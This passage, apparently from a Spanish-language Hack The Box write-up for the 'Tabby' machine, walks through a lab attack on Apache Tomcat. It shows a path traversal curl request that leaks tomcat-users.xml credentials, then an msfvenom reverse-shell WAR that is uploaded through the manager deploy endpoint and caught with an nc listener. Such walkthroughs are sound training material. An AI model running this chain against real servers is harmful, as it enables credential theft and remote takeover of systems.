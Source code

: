 ```bash
─╼ $ sudo apt-get install tomcat9
─╼ $ find / -name "tomcat-users.xml"

/etc/tomcat9/tomcat-users.xml
/opt/tomcat/conf/tomcat-users.xml
/usr/share/tomcat9/etc/tomcat-users.xml
```

Y ahora haciendo la búsqueda sobre esa nueva ruta: `/usr/share/tomcat9/etc/tomcat-users.xml` tenemos credenciales:

```bash
─╼ $ curl -s http://megahosting.htb/news.php?file=../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at
...
...
...
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

Listos, procedamos a validarlas

![pagehostmanager](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/tabby/pagehostmanager.png)

Estamos dentro, revisando el archivo `tomcat-users.xml` vemos dos roles: 

* **admin-gui**: Nos permite entrar al **/host-manager**.
* **manager-script**: Nos va a permitir jugar con scripts. Démosle un vistazo a este

Siguiendo [esta guia](https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00) vemos la manera de ejecutar comandos en la máquina, podemos aprovecharnos de esto para obtener una reverse Shell. Todo pasa por que podemos subir un archivo malicioso .WAR

> En computación, un archivo WAR es un archivo JAR utilizado para distribuir una colección de JavaServer Pages, servlets, clases Java, archivos XML... [Wikipedia](https://es.wikipedia.org/wiki/WAR_(archivo))

Lo primero es generar el archivo, podemos usar `msfvenom` para ello:

> [Esta otra guia] nos explica como seria crear el archivo en vez de usar `msfvenom`

```bash
# Creamos el archivo
─╼ $ msfvenom -p java/shell_reverse_tcp lhost=10.10.15.86 lport=4433 -f war -o pwn.war

# Subimos el archivo y lo alojamos en la ruta `/foo`
─╼ $ curl -u tomcat:'$3cureP4s5w0rd123!' --upload-file pwn.war "http://10.10.10.194:8080/manager/text/deploy?path=/foo&update=true"

# Nos ponemos en escucha
─╼ $ nc -nlvp 4433

# Ejecutamos la petición
─╼ $ curl -s http://10.10.10.194:8080/foo
```
